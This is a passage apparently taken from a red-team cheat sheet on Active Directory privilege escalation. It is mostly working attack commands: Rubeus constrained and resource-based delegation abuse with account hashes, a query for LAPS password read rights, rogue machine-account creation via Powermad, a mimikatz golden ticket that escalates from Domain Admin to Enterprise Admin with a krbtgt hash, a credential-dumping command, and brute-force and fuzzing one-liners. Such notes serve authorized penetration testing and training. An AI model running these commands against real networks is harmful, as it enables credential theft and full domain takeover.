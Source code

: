 All local logons on the DC are logged to C:\Windows\system32\kiwissp.log

# 5 Privilege Escalation

5.1 Rubeus Constained Delegation
.\Rubeus.exe s4u /user:dbservice /domain:sub.domain.local /rc4:6f9e22a64970f32bd0d86fddadc8b8b5 /impersonateuser:"Administrator" /msdsspn:"time/ufc-dc1" /altservice:cifs /ptt

5.2 LAPS passwords

Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs |
Where-Object{($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member -NoteProperty 'IdentitySID' $(Convert-NameToSid. $_IdentityReference).SID; $_}

5.3 Resource-Based Constrained Delegation

. .\powermad.ps1

new-machineaccount -domain sub.domain.local -domaincontroller 192.168.4.2 -machineaccount attacker -Password (ConvertTo-Securestring 'Password123' -AsPlainText -Force) -Verbose

#import ADModule
set-adcomputer <target> -PrincipalsAllowedToDelegateToAccount attacker$ -Verbose 

.\Rubeus.exe s4u /user:attacker$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:http/<target> /ptt

5.4 From DA to EA

kerberos::golden /user:Administrator /domain:sub.domain.local /sid:S-1-5-21-9489
11695-1962824894-4291460450 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /krbtgt:ae5ef6353b190da04cc7a63b79895e5e /ptt

SID parameter refers to current domain SID. SIDS is a combination of target domain SID + 519 (Enterprise Admins group). rc4: is krbtgt hash or external trust key (can be dumped by Invoke-Mimikatz -Command '"lsadump::lsa patch"' on dc)

# 6 Miscellaneous Commands

- Use CEWL to generate wordlist

cewl -d 5 -m 3 -w wordlist http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers 
./ffuf -w /usr/share/wordlists/dns1.txt -u http://FUZZ.fabricorp.local 

- Pattator http_fuzz module

patator http_fuzz url=http://172.31.179.1/intranet.php method=POST follow=1 accept_cookie=1 body="Username=FILE0&Password=123" 0=users -x ignore:fgrep='Invalid' proxy_type="http" proxy="127.0.0.1:8080" -t 25

- Local Enumeration Scripts: HostEnum.ps1 [https://github.com/threatexpress/red-team-scripts/blob/master/HostEnum.ps1](https://github.com/threatexpress/red-team-scripts/blob/master/HostEnum.ps1)

